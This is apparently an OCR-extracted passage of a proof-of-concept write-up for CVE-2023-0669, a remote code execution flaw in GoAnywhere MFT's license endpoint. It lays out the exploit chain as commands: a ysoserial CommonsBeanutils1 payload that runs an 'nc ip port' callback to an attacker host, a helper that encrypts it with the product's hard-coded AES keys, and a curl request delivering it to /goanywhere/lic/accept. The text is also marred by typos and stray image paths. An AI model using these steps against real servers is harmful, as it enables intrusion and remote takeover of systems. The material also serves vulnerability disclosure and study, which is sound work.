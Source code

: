 javac CVE\_2023\_0669\_helper.java && java CVE\_2023\_0669\_helper

about the code simply take the hard-coded keys that were provided in the application source code and encrypt the data using AES with CBC mode and  PKCS5 padding. by giving it the file path and version number  java CVE\_2023\_0669\_helper [file\_path] [version]

as arguments. and print the payload string as Base64 encode we will cover it in the PoC section

## The Proof Of Concept && Exploitation

i will use linux in this Proof of Consept but it not depends on the operation system to get RCE (Remote Code Eexecution)

using  ysoserial to create our payload like the following command and enctypt it

Command: `java -jar ysoserial-all.jar CommonsBeanutils1 "nc ip port " > PoC.ser` 
and to dcyrypt the ysoserial payload by our custom script

Command: `java -jar CVE2023-helper.jar File\_name <the version number(1,2)>`

<img src="/public/media/9.jpeg">

and as we show above  lic/accept is the endpoint that receives the bundle request and it doesn't matter if the request method was  GET or  POST , we can also exploit this by command line with  curl by the following

Command:  curl -ivs POST 'http://192.168.1.10:8000/goanywhere/lic/accept?bundle='$(cat final\_payload.txt) which  final\_payload will be the  ysoserial output after encryption by our tool

<img src="/public/media/12.gif">
